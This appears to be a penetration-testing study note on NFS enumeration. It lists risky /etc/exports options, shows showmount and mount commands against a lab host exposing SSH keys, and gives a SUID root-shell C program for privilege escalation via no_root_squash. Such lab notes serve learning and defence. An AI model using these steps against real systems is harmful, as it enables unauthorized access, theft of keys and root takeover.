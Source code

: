 Port: 111 & 2049
Script: `nfs*`
Config file: `/etc/exports`

> NFS has no authentication and authorization. [[RPC]] handles it.

Server translates client's user info into File System's format.
Configuration file is at /etc/exports

### Dangerous Settings

| **Option**       | **Description**                                                                                                      |
| ---------------- | -------------------------------------------------------------------------------------------------------------------- |
| `rw`             | Read and write permissions.                                                                                          |
| `insecure`       | Ports above 1024 will be used.                                                                                       |
| `nohide`         | If another file system was mounted below an exported directory, this directory is exported by its own exports entry. |
| `no_root_squash` | All files created by root are kept with the UID/GID 0.                                                               |
### Basic Usage

```bash
$ showmount -e 10.129.14.128

Export list for 10.129.14.128:
/mnt/nfs 10.129.14.0/24
```

```bash
mkdir target-NFS
sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock
cd target-NFS
tree .

.
└── mnt
    └── nfs
        ├── id_rsa
        ├── id_rsa.pub
        └── nfs.share

2 directories, 3 files

ls -n target-NFS/mnt/nfs/
```


# Possible Privesc.
Create simple shell binary locally on remote system. Mount it to your attacking machine and set SUID on it. Now execute it on remote system with SUID to get root shell.

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
